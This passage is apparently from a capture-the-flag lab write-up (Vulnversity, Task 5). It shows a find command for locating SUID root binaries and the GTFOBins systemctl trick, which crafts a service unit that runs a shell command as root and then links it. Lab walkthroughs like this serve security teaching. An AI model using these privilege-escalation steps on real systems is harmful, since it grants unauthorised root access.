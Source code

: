 <img src="images/01.Vulnversity/13.png" height="200">

## Task 5

Now run to find SUID files with root permission.

```
find / -user root -perm -4000 -exec ls -ldb {} \;
```

<img src="images/01.Vulnversity/14.png" height="200">

We found some interesting files. Of them, /bin/systemctl is running as root.

Head to https://gtfobins.github.io/gtfobins/systemctl/#suid.

We will try to follow that to check whether it will work or not.

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
```

```
./systemctl link $TF
```
